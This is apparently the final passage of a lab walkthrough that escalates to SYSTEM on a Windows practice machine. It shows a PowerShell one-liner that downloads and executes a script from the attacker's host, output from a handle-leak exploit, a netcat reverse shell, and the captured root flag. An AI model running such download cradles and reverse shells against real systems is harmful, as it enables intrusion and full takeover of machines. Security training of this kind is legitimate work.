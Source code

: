 ```
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.2/up.ps1')
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

```
$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.8] 49194
whoami
nt authority\system
PS C:\Users\kostas\Desktop> cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-ar--         20/5/2025   7:41 ??         34 root.txt


PS C:\Users\Administrator\Desktop> type root.txt
34826a74ae0265570fcc422cae978d6b
```

There we are!
